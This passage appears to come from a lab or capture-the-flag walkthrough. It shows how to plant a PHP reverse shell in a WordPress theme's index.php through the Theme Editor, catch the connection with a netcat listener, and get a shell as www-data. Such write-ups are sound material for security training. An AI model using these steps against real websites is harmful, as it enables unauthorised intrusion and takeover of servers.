

4.2 Creating a reverse shell
1. Go to “Appearance > Theme Editor > index.php”.
2. Delete the content of the page.
3. Copy from you Kali Machine “/usr/share/webshells/php/php-reverse-shell.php” file the content and paste it in the content field.
3. Change the attacker IP to “192.168.12.10”.
3. Click on the “Update File” button.

4. On you Kali Machine run the following code.
$nc -lvp 1234
5. Visit the http://192.168.12.24/lyricsblog/ page.
6. You got a “Reverse Shell” on your Kali Machine.
But your id is “uid=33(www-data) gid=33(www-data) groups=33(www-data)”